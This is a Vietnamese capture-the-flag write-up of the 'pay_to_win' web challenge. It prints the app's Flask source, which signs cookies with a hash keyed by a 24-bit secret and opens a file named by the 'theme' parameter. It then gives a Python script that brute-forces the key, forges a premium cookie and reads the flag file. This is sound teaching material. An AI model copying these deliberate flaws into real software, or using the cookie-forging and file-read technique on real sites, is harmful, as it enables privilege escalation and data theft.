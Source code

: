 Challenge tiếp theo là pay_to_win 


![1](./1.png)

Yeah web cho chúng ta một form đăng nhập 

![2](./2.png)

"Not a premium user"!!! hmm có vẻ chúng ta cần đăng nhập với quyền premium để lấy được flag thì phải


![3](./3.png)


Check thử cookie xem nào có vẻ nó cho chúng ta hai giá trị là data và hash


![4](./5.png)


Check thử source code xem có thể được gì nào  

```from flask import Flask, request, render_template, redirect, make_response
from base64 import b64encode, b64decode
import hashlib
import random
import json

app = Flask(__name__)
users = {}


def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()


@app.route('/')
def index():
    if request.cookies.get('data') is None or request.cookies.get('hash') is None:
        return redirect('/login')

    data = request.cookies.get('data')
    decoded = b64decode(data)
    data_hash = request.cookies.get('hash')
    payload = json.loads(decoded)

    if payload['username'] not in users:
        resp = make_response(redirect('/login'))
        resp.set_cookie('data', '', expires=0)
        resp.set_cookie('hash', '', expires=0)
        return resp

    actual_hash = hash(data + users[payload['username']])

    if data_hash != actual_hash:
        return redirect('/login')

    if payload['user_type'] == 'premium':
        theme_name = request.args.get('theme') or 'static/premium.css'
        return render_template('premium.jinja', theme_to_use=open(theme_name).read())
    else:
        return render_template('basic.jinja')


@app.route('/login', methods=['GET'])
def get_login():
    return render_template('login.jinja')


@app.route('/login', methods=['POST'])
def post_login():
    username = request.form['username']

    if username not in users:
        users[username] = hex(random.getrandbits(24))[2:]

    resp = make_response(redirect('/'))
    data = {
        "username": username,
        "user_type": "basic"
    }

    b64data = b64encode(json.dumps(data).encode())
    data_hash = hash(b64data.decode() + users[username])
    resp.set_cookie('data', b64data)
    resp.set_cookie('hash', data_hash)
    return resp


if __name__ == '__main__':
    app.run()
```


Yeah có vẻ chúng ta dễ dàng thấy được khi đăng nhập nó sẽ set sẵn cho chúng ta user_type là basic nhiệm vụ của mình là chuyển sang premium để lấy được template chứa flag, tuy nhiên khó khăn ở đây là tác giả đính kèm giá trị hash cùng với khóa được random một chuỗi ký tự 24 bits. Câu hỏi ở đây là chúng ta có thể brute force và tìm ra khóa ở đây được không nếu được chúng ta chỉ cần set lại giá trị data và hash và sẽ đăng nhập được với quyền user_type và đây là đoạn code của mình

```
import random
from base64 import b64encode, b64decode
import hashlib
import json


data_cookie = 'eyJ1c2VybmFtZSI6ICJuZ29jIiwgInVzZXJfdHlwZSI6ICJiYXNpYyJ9'
hash_cookie = '8529e1f31c3682725b54d02c3a07b5582bea7844624d3804aa813db2a52931bb'
username = 'ngoc'

def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()
def crack():
    
    data = {
        "username": username,
        "user_type":"basic"
    }
    for i in range(0xFFFFFF):
        r = hex(i)[2:]
        b64data = b64encode(json.dumps(data).encode())
        data_hash = hash(b64data.decode() + r) 
        if b64data.decode() == data_cookie and data_hash == hash_cookie:
            return r
        i += 1
        if i % 1000000 == 0:
            print(f"{i=}")   
def force(r):
    data = {"username": username, "user_type":"premium"}
    
    b64data = b64encode(json.dumps(data).encode())
    data_hash = hash(b64data.decode() + r)
    
    print(f"{b64data=} {data_hash=}")
    
    
if __name__ == "__main__":
    # print(crack())
    r = "9fba4d"
    force(r)
```
Vì chỉ sử dụng 24bits thôi nên việc brute force khóa không quá khó khăn chúng ta dễ dàng crack được khóa

![5](./7.png)


Và bây giờ đơn giản là set lại hai giá trị mình đã nói mà thôi 

![6](./8.png)


Yeah bây giờ truyền lại vào cookie và đăng nhập thôi và boom chúng ta đã đăng nhập với quyền premium

![7](./9.png)


Nhưng có vẻ flag không ở đây, hmm tìm lại trong source code thử xem và mình phát hiện trong Dockerfile path này
![9](./10.png)

Và flag có vẻ nằm trong file nguồn trên trang web 

![10](./11.png)

Và boom chúng ta đã có được flag

![11](./12.png)